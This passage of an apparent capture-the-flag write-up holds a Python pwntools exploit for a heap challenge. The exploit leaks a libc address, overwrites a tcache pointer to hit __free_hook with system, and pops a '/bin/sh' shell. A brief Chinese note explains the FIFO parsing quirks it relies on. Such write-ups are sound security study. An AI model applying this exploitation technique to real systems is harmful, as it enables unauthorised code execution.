 ```python
    c = get('B', is_host=False, wait=False)
    recv_data(h)
    send_data(h, wait=True)
    crash(c)

    ## clear fifo with valid data ##
    tmp = get('2', is_host=False, wait=True)
    crash(tmp)
    tmp = get('1', is_host=False, wait=True)
    crash(tmp)

    ## last client need to leak host libc ##
    leak = get('C', is_host=False, wait=True)
    data = leak.recvline()
    data = data.replace(b'The opponent is ', b'').replace(b'\n', b'')
    libc = u64(b64decode(data)[8:16]) - 0x1ebfd0
    __free_hook = libc + 0x1eeb28
    _system = libc + 0x55410
    info(f"libc: {hex(libc)}")

    ## clear fifo ##
    for _ in range(3):
        recv_data(h)

    send(h, leak, 'str', 'Q'*0x40)
    crash(leak)

    aasend2h(h, str(T_STR))
    aasend2h(h, str(0x210))
    aasend2h(h, b64encode(b'\x00'*0x218 + p64(0x21) + p64(__free_hook - 8))) # overwrite 0x20 fd
    recv_data(h)

    aasend2h(h, str(T_STR))
    aasend2h(h, str(0x1))
    aasend2h(h, b64encode(b'\x00'*8 + p64(_system)))
    recv_data(h)

    set_data(h, 'str', '/bin/sh')
    set_data(h, 'str', 'Q'*0x30, wait=False)

    h.interactive()

way1()
```

P.S. 若是透過 `receive_data` 接收資料，因為預期第一個接收到的參數會是 `type` (int)，因此在讀取時似乎沒有辦法好好讀傳入的 char array，這樣會影響到 host (透過 abort 來任意收資料) 以及 clinet (接收假資料來做 heap exploit)：

- host - 沒辦法用 `receive_data` 來清空 fifo，因為在輸入名字時會先把傳入的 type 吃掉，因此 `length` 與 `data` 會變成 `type` 以及 `length`，並且 `data` 為空
  - 解法為利用**接收名字**時是用 char array 來接收，因此可以 handle int 以及 char array
- client - 沒辦法用 `receive_data` 來清空 fifo ，因為 host 如果傳入的是任意名字，當在讀取 `type` 時就會不通過
  - 解法為讓 host 的名字傳入順序剛好符合 `type`、`length`、`data` 的格式

